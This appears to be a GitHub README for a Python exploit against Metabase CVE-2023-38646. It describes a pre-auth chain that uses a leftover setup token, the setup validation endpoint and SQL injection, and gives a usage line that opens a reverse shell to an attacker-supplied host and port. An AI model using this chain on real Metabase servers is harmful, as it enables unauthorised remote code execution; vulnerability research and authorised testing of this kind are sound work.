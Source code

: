 # CVE-2023-38646

This script creates a reverse shell targeting CVE-2023-38646 (CVSS 9.8). It is developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How it works:
A token called "setup-token" is used to allow users to setup Metabase. However, for vulnerable versions of Metabase this token is not removed after setup.
This token is accessible to unauthenticated users under "/api/session/properties" - however the script is able to automatically retrieve the token.

As part of the setup process, an endpoint exists at /api/setup/validate which takes in a JDBC URI as a part of the POST request and then validates the connection before allowing you to complete the setup. However, this is also not disabled after inital setup and can be used with the set-up token.

Further, Assetnote found a 0day SQL injection vulnerability which allows commands be to executed on the remote host. Using this, a reverse shell can be spawned.

For more detailed information, please see the [full article](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How to use this script:
`python3 CVE-2023-38646.py --lhost {KALI IP} --lport {KALI LISTENING PORT} --url http://{DOMAIN_OF_LOGIN_PAGE-NOT_PATH!}`

options:
* -h, --help    - show this help message and exit
* --url URL     - URL of the login page
* --lhost LHOST  - Your attacker machine IP
* --lport LPORT - Your attacker machine listening port

# Example:
![Example Screenshot](Example%20Screenshot.png)

# Disclaimer
This script is provided for educational and awareness purposes only. It is intended to demonstrate a security vulnerability and should only be used in environments where you have explicit authorization to test for and mitigate such vulnerabilities. Unauthorised use of this script on systems without proper authorization may be illegal and could result in legal consequences. 
The author of this script are not responsible for any misuse or damage caused by the execution of this code. Use at your own risk.
By using this script, you agree that you have read and understood this disclaimer and assume full responsibility for any actions taken.

# Acknowledgements:
This script was developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).
Inspiration was also taken from [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646) by [Pyr0sec](https://github.com/Pyr0sec).
